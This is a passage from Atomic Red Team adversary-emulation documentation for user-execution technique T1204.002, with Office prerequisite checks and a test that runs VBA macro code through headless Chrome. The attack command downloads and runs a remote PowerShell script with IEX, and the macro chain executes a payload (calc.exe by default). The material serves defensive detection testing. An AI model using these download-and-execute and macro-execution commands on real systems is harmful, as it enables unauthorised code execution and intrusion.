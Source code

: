 ##### Description: Microsoft Excel must be installed

##### Check Prereq Commands:

```powershell
try {
  New-Object -COMObject "Excel.Application" | Out-Null
  Stop-Process -Name "Excel"
  exit 0
} catch { exit 1 }
```

##### Get Prereq Commands:

```powershell
Write-Host "You will need to install Microsoft Excel manually to meet this requirement"
```

<br/>
<br/>

## Atomic Test #7 - Headless Chrome code execution via VBA

This module uses Google Chrome combined with ScriptControl to achieve code execution. It spawns a local
webserver hosting our malicious payload. Headless Google Chrome will then reach out to this webserver
and pull down the script and execute it. By default the payload will execute calc.exe on the system.

**Supported Platforms:** Windows

**auto_generated_guid:** a19ee671-ed98-4e9d-b19c-d1954a51585a

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1204.002\src\chromeexec-macrocode.txt" -officeProduct "Word" -sub "ExecChrome"
```

#### Cleanup Commands:

```powershell
Stop-Process -name mshta
```

#### Dependencies: Run with `powershell`!

##### Description: Microsoft Word must be installed

##### Check Prereq Commands:

```powershell
try {
  $wdApp = New-Object -COMObject "Word.Application"
  Stop-Process -Name "winword"
  exit 0 } catch { exit 1 }
```
